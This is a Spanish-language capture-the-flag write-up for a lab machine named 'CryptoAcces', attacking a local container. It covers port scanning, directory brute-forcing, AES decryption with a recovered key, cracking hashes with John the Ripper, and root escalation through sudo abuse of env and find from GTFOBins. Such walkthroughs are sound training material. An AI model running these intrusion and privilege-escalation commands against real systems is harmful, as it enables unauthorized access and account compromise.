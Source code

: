 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Medio📅 Fecha de creación: 5/10/2024'
---
```


# CryptoAcces

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen (58).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (59).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (60).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos la página por defecto de Apache.

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/imagen (61).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio oculto llamado `/hidden` por lo que indagamos qué contenido habrá.

<figure><img src="../.gitbook/assets/imagen (62).png" alt=""><figcaption></figcaption></figure>

Observamos varios archivos por lo que nos los descargamos e indagaremos más a fondo pero tiene pinta que hay trata de criptografía.

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://172.17.0.2/hidden/
```

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

<pre class="language-bash"><code class="lang-bash"><strong>openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
</strong></code></pre>

```
openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -pbkdf2
```

Descifra el archivo `alice_aes.enc` utilizando AES-256-CBC con la clave `supercomplexkey!`,y guarda el resultado en el archivo `alice_password.txt`. La opción de iteración asegura que el proceso de derivación de la clave sea más seguro al hacerlo más difícil de atacar por fuerza bruta.

> Nota: la clave se encuentra en el archivo numeros\_suerte.txt

Hemos descubierto de **alice** que es **superSecurePassword!**

Vamos a descubrir las credenciales del usuario **bob**, al parecer hay varios hashes por lo que los vamos a crackear.

Nos aseguramos de tener todos los hashes de las contraseñas de Bob en un solo archivo. Combinamos los hashes en un único archivo de texto usando el siguiente comando:

```bash
cat bob_password*.hash > bob_passwords.hash
```

Utilizamos John the Ripper para intentar crackear las contraseñas.

```bash
john --wordlist=/usr/share/john/password.lst bob_passwords.hash
```

<figure><img src="../.gitbook/assets/imagen (64).png" alt=""><figcaption></figcaption></figure>

Desciframos estos hashes y se nos proporciona 3 contraseñas y al probar vemos que **letmein** es la correcta. Toca iniciar sesión de los dos usuarios a través del servicio **SSH**.

<figure><img src="../.gitbook/assets/imagen (65).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (66).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (67).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (68).png" alt=""><figcaption></figcaption></figure>

#### 1. **Escalada de privilegios con `env` (Bob)**

El binario `/usr/bin/env` puede ser utilizado para escalar privilegios cuando tiene permisos de sudo sin contraseña. A continuación te muestro cómo podrías hacerlo siguiendo los pasos proporcionados por **GTFObins**.

**Comando de GTFObins (env) para obtener una shell de root:**

```bash
sudo /usr/bin/env /bin/sh
```

* Este comando ejecuta el binario `/bin/sh` con privilegios de root mediante `sudo` y `env`, dándote una shell de root.
* Una vez ejecutado, tendrás acceso root en la máquina.

#### 2. **Escalada de privilegios con `find` (Alice)**

De forma similar, el comando `find` también puede ser explotado para obtener una shell con privilegios elevados si tiene permisos de sudo.

**Comando de GTFObins (find) para obtener una shell de root:**

```bash
sudo find . -exec /bin/sh \; -quit
```

* Este comando usa `find` para ejecutar `/bin/sh` con privilegios de root utilizando `sudo`.
* El flag `-exec` permite ejecutar el comando `/bin/sh`, y `-quit` detiene el comando `find` una vez que la shell ha sido lanzada.

<figure><img src="../.gitbook/assets/imagen (69).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/imagen (70).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.
